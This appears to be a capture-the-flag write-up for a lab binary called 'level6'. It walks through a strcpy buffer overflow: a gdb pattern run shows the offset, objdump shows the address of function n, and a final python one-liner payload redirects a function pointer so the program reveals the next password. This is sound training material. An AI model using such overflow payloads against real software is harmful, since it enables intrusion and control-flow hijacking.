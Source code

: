 # level6

- Three functions
    - `m` : prints "Nope"
    - `n` : prints next level password
    - `main` call the function `m`  pointed by `ppcVar1` 


- A buffer overflow vulnerability is present:
    ```c
    strcpy(buffer, argv[1]);
    ```
    - 64 bytes long are allocated for the buffer.
    - User's input is copied into the buffer without any boundary checking.

## Goal
Overflow to overwrite the content of the function pointer `ppcVar1` to point to the function `n` instead of `m`.

## Step 1
Find the offset to overwrite the function pointer `ppcVar1` thanks to the [pattern creator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

```console
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```

`0x41346341` is at the 72th position in the pattern.

We understand that the `strcpy` overwrite the function pointer at the 72th position.

### Solution

Put the address of the function `n` at the 72th position.

## Step 2
Find the address of the function `n`:

```console
objdump -d level6 | grep n
08048454 g     F .text	00000014              n
```

`0x08048454` is the address of the function `n`.

## Exploit
```bash
/home/user/level6/level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```
